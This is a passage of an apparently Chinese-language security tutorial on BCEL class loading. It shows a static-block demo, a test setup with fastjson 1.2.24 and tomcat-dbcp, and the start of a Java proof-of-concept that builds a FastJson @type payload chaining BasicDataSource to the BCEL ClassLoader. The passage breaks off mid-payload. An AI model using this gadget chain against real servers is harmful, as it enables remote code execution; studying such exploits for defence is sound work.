 ```java

    }
}
```

执行结果如下，可以看到Class.forName()时，static代码块被执行了：

```java
Execute Class.forName:
// This is static code executed
class Test
Execute ClassLoader:
class Test

```

## 0x03 BCEL在FastJson中的使用

### 3.1 测试环境

Jdk: 8.131

pom.xml

```xml
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-dbcp</artifactId>
        <version>9.0.20</version>
    </dependency>
```

### 3.2 Poc

```java
package com.BCEL.demo;

import com.alibaba.fastjson.JSON;

public class POc {
    public static void main(String[] args) {
             //这里是tomcat>8的poc :org.apache.tomcat.dbcp.dbcp2.BasicDataSource
            // 如果小于8的话用到的类是 :org.apache.tomcat.dbcp.dbcp.BasicDataSource
        String payload =
                "{\n"
                        + "   {\n"
                        + "       \"aaa\": {\n"
                        + "               \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n"
                        + "               \"driverClassLoader\": {\n"
                        + "                   \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n"
                        + "               },\n"
```